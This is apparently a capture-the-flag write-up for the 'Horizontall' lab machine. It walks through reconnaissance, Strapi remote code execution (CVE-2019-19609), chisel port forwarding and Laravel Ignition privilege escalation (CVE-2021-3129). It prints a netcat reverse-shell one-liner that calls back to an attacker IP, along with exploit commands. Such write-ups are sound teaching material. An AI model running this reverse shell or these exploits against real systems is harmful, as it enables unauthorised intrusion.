 # Horizontall

The first thing I did was run a Rustscan on the target

```bash
rustscan -a 10.129.151.240 -- -A -sC -sV
```

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add <mark style="color:green;">horizontall.htb</mark> to our /etc/hosts file since in the output we got "_Did not follow redirect to http://horizontall.htb_"

Searching on Google informs us that the latest version of nginx is 1.21.6 (mainline version) and 1.20.2 (stable version). We'll keep this in mind

![](<../../../.gitbook/assets/image (7).png>)

Going to the site, we see a web page.

![](<../../../.gitbook/assets/image (36).png>)

Viewing the source code and going through the site really did not provide anything useful. However, is it possible for the nginx server to have more vhosts? Using ffuf, we will see something

```bash
ffuf -u http://horizontall.htb -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.horizontall.htb' -fs 0 -mc 200 
```

![](<../../../.gitbook/assets/image (30).png>)

Heading back over to the browser, we are presented with a basic welcome page

![](<../../../.gitbook/assets/image (42).png>)

Time to enumerate some more. Now there are two interesting directory that we can explore

![](<../../../.gitbook/assets/image (35).png>)

The reviews directory yields us some users: <mark style="color:green;">wail</mark>, <mark style="color:green;">doe</mark>, and <mark style="color:green;">john</mark>

![](<../../../.gitbook/assets/image (33).png>)

And the admin page

![](<../../../.gitbook/assets/image (40).png>)

Doing a google search on strapi shows that it is an open source Node.js headless CMS

Great! Now hopefully we can a version number somewhere

![](<../../../.gitbook/assets/image (16).png>)

It seems the current version of Strapi is 3.0.0-beta.17.4

![](<../../../.gitbook/assets/image (37).png>)

Using searchsploit gives us some good news. An [RCE](https://www.exploit-db.com/exploits/50239)!

![](<../../../.gitbook/assets/image (58).png>)

According to [CVE-2019-18818](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-18818)

> strapi before 3.0.0-beta.17.5 mishandles password resets within packages/strapi-admin/controllers/Auth.js and packages/strapi-plugin-users-permissions/controllers/Auth.js."

There's also [CVE-2019-19609](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19609)

> The Strapi framework before 3.0.0-beta.17.8 is vulnerable to Remote Code Execution in the Install and Uninstall Plugin components of the Admin panel, because it does not sanitize the plugin name, and attackers can inject arbitrary shell commands to be executed by the execa function.

We run the exploit and then login

![](<../../../.gitbook/assets/image (63).png>)

![](<../../../.gitbook/assets/image (24).png>)

Awesome! Now there's Plugin called "Files Upload", let's see if we can upload a file to get a reverse shell.&#x20;

I tried multiple times to get a shell, but the output of following the file yielded something like this:

![](<../../../.gitbook/assets/image (69).png>)

```
http://localhost:1337/uploads/0083c7ac6ed14dce9cc54821af03bf08.php
```

Which made sense based on the exploit code (that's why we see port 1337). I was thinking about if we could do something with changing the port, but that seemed like something too complex and lead to a deep rabbit hole. Then I thought, if we have RCE already from the exploit, couldn't we just try to get a shell that way?

As it turns out, that was a very quick solution

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 4444 >/tmp/f
```

![](<../../../.gitbook/assets/image (64).png>)

After upgrading my shell, I searched for the user.txt file

![](<../../../.gitbook/assets/image (46).png>)

I ran linepeas.sh and noticed something interesting. Looks like there is MySQL running and something else on port 8000. What is that port used for?

![](<../../../.gitbook/assets/image (41).png>)

A Google search gave me this result

> TCP Port 8000 is commonly used for development environments of web server software. It generally should not be exposed directly to the Internet. If you are running software like this on the Internet, you should consider placing it behind a reverse proxy.
>
> [Source](https://www.elastic.co/guide/en/siem/guide/current/tcp-port-8000-activity-to-the-internet.html)

This most likely means we might have to do some port forwarding in order to see the website. But first let's see if we can grab some information before doing this.

Using <mark style="color:green;">`curl -v localhost:8000`</mark> gave us a site powered by Laravel AND it's version number

![](<../../../.gitbook/assets/image (65).png>)

Searching for exploits I found these which were helpful

{% embed url="https://www.exploit-db.com/exploits/49424" %}

{% embed url="https://www.ambionics.io/blog/laravel-debug-rce" %}

{% embed url="https://github.com/nth347/CVE-2021-3129_exploit" %}

According to [CVE-2021-3129](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-3129)

> Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of file\_get\_contents() and file\_put\_contents(). This is exploitable on sites using debug mode with Laravel before 8.4.2.

#### Port Forwarding&#x20;

Now to do some port forwarding. We'll use the [chisel ](https://github.com/jpillora/chisel)tool

We'll transfer it to our victim machine and make it an executable

![](<../../../.gitbook/assets/image (34).png>)

Then we'll run the below commands on our kali machine and the victim machine respectively

```bash
./chisel server -p 7777 --reverse # Kali machine
./chisel client 10.10.14.38:7777 R:8000:127.0.0.1:8000 # on Victim
```

![](<../../../.gitbook/assets/image (38).png>)

![Victim machine](<../../../.gitbook/assets/image (5).png>)

Now when we go to <mark style="color:green;">`http://127.0.0.1:8000`</mark> in the browser, we can see the Laravel site

![](<../../../.gitbook/assets/image (49).png>)

#### Priv Esc

Using the GitHub resource for the Laravel vulnerability, we'll execute the following command

```python
./privesc.py http://localhost:8000 Monolog/RCE1 "whoami"
```

![](<../../../.gitbook/assets/image (67).png>)

Awesome! Now we can cat the root.txt file

![](<../../../.gitbook/assets/image (59).png>)

This is nice, but a shell would be nicer :)

![](<../../../.gitbook/assets/image (18).png>)

![](<../../../.gitbook/assets/image (55).png>)

{% hint style="info" %}
Although we get a shell, it's not very stable. But it does the job regardless
{% endhint %}

SUCCESS!

![](<../../../.gitbook/assets/image (15).png>)
